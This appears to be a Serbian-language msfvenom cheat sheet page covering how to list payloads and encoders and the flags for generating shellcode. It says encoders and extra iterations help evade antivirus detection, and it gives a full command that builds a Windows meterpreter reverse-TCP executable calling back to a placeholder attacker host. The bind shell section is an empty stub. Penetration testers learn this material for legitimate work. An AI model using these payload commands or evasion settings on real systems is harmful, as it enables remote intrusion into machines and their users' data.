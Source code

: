 ```bash
msfvenom -l payloads #Payloads
msfvenom -l encoders #Encoders
```

## Uobičajeni parametri prilikom kreiranja shellcode-a

Prilikom kreiranja shellcode-a, postoje neki uobičajeni parametri koje treba uzeti u obzir. Ovi parametri omogućavaju prilagođavanje shellcode-a specifičnim potrebama i ciljevima.

* **`-p`** ili **`--payload`**: Ovaj parametar se koristi za odabir odgovarajućeg payloada koji će biti uključen u shellcode. Na primer, možete odabrati reverse shell payload ili bind shell payload.
* **`-f`** ili **`--format`**: Ovaj parametar se koristi za odabir formata izlaznog fajla. Na primer, možete odabrati da izlazni fajl bude u formatu `exe`, `elf`, `raw` ili `c`.
* **`-e`** ili **`--encoder`**: Ovaj parametar se koristi za odabir enkodera koji će biti korišćen za enkodiranje shellcode-a. Enkoderi se koriste za izbegavanje detekcije antivirusnih programa. Na primer, možete odabrati enkoder poput `x86/shikata_ga_nai` ili `x86/jmp_call_additive`.
* **`-b`** ili **`--bad-chars`**: Ovaj parametar se koristi za navođenje loših karaktera koje treba izbeći prilikom generisanja shellcode-a. Na primer, možete navesti loše karaktere kao što su NULL bajtovi ili newline karakteri.
* **`-i`** ili **`--iterations`**: Ovaj parametar se koristi za navođenje broja iteracija koje će se koristiti prilikom enkodiranja shellcode-a. Veći broj iteracija može pomoći u izbegavanju detekcije antivirusnih programa, ali takođe može povećati veličinu shellcode-a.
* **`-o`** ili **`--out`**: Ovaj parametar se koristi za navođenje putanje i naziva izlaznog fajla koji će sadržati generisani shellcode.

Ovi parametri su samo neki od uobičajenih parametara koji se mogu koristiti prilikom kreiranja shellcode-a. Važno je prilagoditi parametre prema specifičnim potrebama i ciljevima napada.

```bash
-b "\x00\x0a\x0d"
-f c
-e x86/shikata_ga_nai -i 5
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
```

## **Windows**

### **Reverse Shell**

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```

### Bind Shell

{% code overflow="wrap" %}
```
```
{% endcode %}
